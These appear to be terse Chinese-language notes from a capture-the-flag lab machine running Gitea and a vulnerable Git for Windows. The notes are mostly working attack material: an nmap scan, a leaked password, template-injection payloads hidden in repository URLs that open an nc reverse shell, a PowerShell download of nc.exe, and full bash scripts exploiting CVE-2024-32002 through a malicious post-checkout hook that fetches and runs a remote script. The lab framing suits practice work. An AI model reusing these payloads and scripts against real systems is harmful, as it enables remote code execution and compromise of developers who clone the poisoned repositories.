


# 服务

```
┌──(root㉿kali)-[~]
└─# nmap -Pn -p- 10.10.11.26
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-30 04:34 EDT
Stats: 0:11:12 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 5.10% done; ETC: 08:14 (3:28:32 remaining)
Nmap scan report for 10.10.11.26
Host is up (0.31s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
3000/tcp open  ppp
5000/tcp open  upnp
5985/tcp open  wsman
7680/tcp open  pando-pub

Nmap done: 1 IP address (1 host up) scanned in 5281.61 seconds

```


Powered by Gitea
当前版本: 1.21.6


Server: Werkzeug/3.0.3 Python/3.12.3


Gitea上找到5000端口的源码



在Calculator项目里得知git的版本为：2.45.0.windows.1


```
echo "10.10.11.26 gitea.compiled.htb" >> /etc/hosts
```


CVE-2024-32002

max

R2*#?n%V8e4#Hhk


git remote add origin http://10.10.11.26:3000/max/captain.git


git remote add origin http://10.10.11.26:3000/max/hook.git


http://{{config.__class__.__init__.__globals__['os'].popen('mkfifo /tmp/ZTQ0Y; nc 10.10.16.3 443 0</tmp/ZTQ0Y | /bin/sh >/tmp/ZTQ0Y 2>&1; rm /tmp/ZTQ0Y').read()}}.git


http://{{ __import__('os').system('ping -c 1 10.10.16.3') }}.git


echo 'cmd /c ping 10.10.16.3' > .githooks/post-checkout


cat > y/hooks/post-checkout <<EOF
#!/bin/bash
cmd.exe /c ping 10.10.16.3
EOF


powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.3/any','C:\windows\temp\nc.exe')"


```
#!/bin/bash

# Set Git configuration options
git config --global protocol.file.allow always
git config --global core.symlinks true
# optional, but I added it to avoid the warning message
git config --global init.defaultBranch main 


# Define the tell-tale path
tell_tale_path="$PWD/tell.tale"

# Initialize the hook repository
git clone http://gitea.compiled.htb:3000/max/hook.git
cd hook
mkdir -p y/hooks

# Write the malicious code to a hook
cat > y/hooks/post-checkout <<EOF
#!bin/sh.exe
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.3/rev.ps1')
EOF

# Make the hook executable: important
chmod +x y/hooks/post-checkout

git add y/hooks/post-checkout
git commit -m "post-checkout"
git remote add origin http://gitea.compiled.htb:3000/max/hook.git
git push -u origin main

cd ..

# Define the hook repository path
hook_repo_path="$(pwd)/hook"

# Initialize the captain repository
git clone http://gitea.compiled.htb:3000/max/captain.git
cd captain
git submodule add --name x/y "$hook_repo_path" A/modules/x
git commit -m "add-submodule"

# Create a symlink
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "add-symlink"
git remote add origin http://gitea.compiled.htb:3000/max/captain.git
git push -u origin main
cd ..

```


```
#!/bin/bash
git config --global protocol.file.allow always
git config --global core.symlinks true
git config --global init.defaultBranch main

git clone http://gitea.compiled.htb:3000/chen/hook.git
cd hook
mkdir -p y/hooks
cat > y/hooks/post-checkout <<EOF
#!bin/sh.exe
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.3/rev.ps1')
EOF
chmod +x y/hooks/post-checkout
git add y/hooks/post-checkout
git commit -m "post-checkout"
git push
cd ..
git clone http://gitea.compiled.htb:3000/chen/captain.git
cd captain
git submodule add --name x/y "http://gitea.compiled.htb:3000/chen/hook.git" A/modules/x
git commit -m "add-submodule"
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "add-symlink"
git push
```
